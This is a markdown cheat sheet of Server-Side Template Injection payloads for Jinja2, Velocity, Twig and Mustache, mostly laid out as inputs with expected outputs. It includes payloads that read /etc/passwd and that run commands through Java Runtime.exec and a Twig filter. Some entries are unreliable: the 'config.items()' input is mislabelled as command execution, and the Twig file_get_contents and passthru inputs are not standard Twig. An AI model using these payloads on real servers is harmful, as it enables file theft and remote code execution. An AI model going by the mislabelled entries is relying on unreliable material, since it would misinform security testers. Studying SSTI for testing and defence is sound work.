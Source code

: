 # `Server-Side Template Injection`

Server-Side Template Injection (SSTI) is a security vulnerability that occurs when an application allows an attacker to inject malicious content into a server-side template. Server-side templates are used by web applications to dynamically generate HTML, XML, or other markup languages. These templates often include placeholders or variables that are replaced with actual data when the template is rendered on the server.

### Simple SSTI Check:
    Input: {{ 7 * 7 }}
    Expected Output: 49
    Purpose: Check if basic arithmetic operations are evaluated in the template.

### String Concatenation:
    Input: {{ 'Hello' ~ 'World' }}
    Expected Output: HelloWorld
    Purpose: Verify if string concatenation is allowed.

### Context Testing:
    Input: {{ '<script>alert("XSS")</script>' }}
    Expected Output: Check if the input is treated as plain text or executed as JavaScript.

### Error-Based Testing:
    Input: {{ 1/0 }}
    Expected Output: An error message indicating division by zero.
    Purpose: Trigger an error to identify how the application handles errors.

## Jinja2 (Python):

### File Reading:
    Input: {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    Expected Output: Content of the /etc/passwd file.
    Purpose: Check if it's possible to read files on the server.

### Command Execution:
    Input: {{ config.items() }}
    Expected Output: Configuration information (if available).
    Purpose: Attempt to execute commands and extract sensitive information.

## Velocity (Apache Velocity):

### Java Class Loading:
        Input: $class.getClassLoader().loadClass("java.lang.Runtime").getDeclaredMethod("getRuntime").invoke(null).exec("calc")
        Expected Output: Launch the calculator on Windows.
        Purpose: Test for Java class loading and code execution.

## Twig (PHP):

### File Reading (Twig):
        Input: {{ file_get_contents('/etc/passwd') }}
        Expected Output: Content of the /etc/passwd file.
        Purpose: Similar to Jinja2, check if it's possible to read files on the server.

### Command Execution (Twig):
        Input: {% set cmd = 'ls -la' %} {{ cmd | passthru }}
        Expected Output: Output of the ls -la command.
        Purpose: Test for command execution in Twig templates.

## Mustache (Logic-less templates):

### Basic Mustache Injection:
        Input: {{#payload}}{{/payload}}
        Expected Output: Check if payload is treated as plain text or evaluated.
        Purpose: Evaluate how Mustache handles variable substitution.